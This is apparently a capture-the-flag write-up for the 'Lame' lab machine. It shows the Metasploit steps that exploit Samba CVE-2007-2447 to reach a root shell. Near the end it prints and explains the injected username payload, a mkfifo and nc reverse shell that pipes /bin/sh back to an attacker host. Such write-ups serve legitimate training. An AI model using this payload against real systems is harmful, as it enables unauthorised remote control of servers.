 # Lame

In this blog, we explore the process of identifying and exploiting vulnerabilities in Samba using the CVE-2007-2447 exploit. By leveraging Metasploit, we demonstrate how to gain unauthorized access to a server through the manipulation of shell metacharacters. This post provides a detailed, step-by-step guide on executing the exploit and capturing the root flag.

Perform an `nmap` scan using the `-sV` switch. We see we get a response with multiple services up and running on the target server.

<figure><img src="../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

If we do some basic research, we identify some vulnerabilities relating to the Samba version running on the server.

Samba is a suite of programs that implements the Server Message Block (SMB) protocol, which includes NetBIOS over TCP/IP (NBT). SMB is a network file sharing protocol that allows computers and servers to communicate with other systems using network ports. NetBIOS is an older transport layer that allows Windows computers to communicate with each other on the same network.

For the machine, we are going to utilize CVE-2007-2447, which as defined by CVE, "allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) SamrChangePassword function when the 'username map script' smb.conf option is enabled, and allows remote authenticated users to execute commands via shell metacharacters involving other MS-RPC functions in the (2) remote printer and (3) file share management."

Luckily, we see Metasploit already has a script to exploit this vulnerability.

Type the following commands to properly execute the Metasploit payload:

`search cve-2007-2447`

<figure><img src="../../.gitbook/assets/image (13) (1).png" alt=""><figcaption><p>Find Metasploit script</p></figcaption></figure>

`use exploit/multi/samba/usermap_script`

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption><p>Use script</p></figcaption></figure>

`set rhost "Enter applicable ip address"`

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption><p>Set your host IP properly</p></figcaption></figure>

`run`

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption><p>Run script</p></figcaption></figure>

We now have successfully established a connection with the remote Samba server.

You will find the user flag in the /home/makis directory. Type `Shell` to spawn a new shell in your CMD and locate the root flag by typing `cd /root`.

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Here is the Metasploit script that actually performs the exploit.

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Example Execution Flow:

* **Username Injection:**
  * When Samba processes the `username field /=nohup mkfifo /tmp/hago; nc lhost lport 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago``:`
* **Command Execution:**
  * The shell interprets the backticks and executes the command inside them.
  * `mkfifo /tmp/hago` is executed, creating a named pipe.
  * `nc lhost lport 0</tmp/hago | /bin/sh >/tmp/hago 2>&1` is executed, establishing a reverse shell connection to the attacker's machine.
  * `rm /tmp/hago` is executed, cleaning up the named pipe.
  * The backticks `` ` ` `` around `nohup " + payload + "` ensure that this string is treated as a command and executed by the shell.
  * `nohup` ensures that the command runs to completion without being interrupted by hangup signals.
  * By carefully crafting the payload and using shell metacharacters, the attacker can execute arbitrary commands on the vulnerable server, leading to a reverse shell and potentially complete control over the target system.
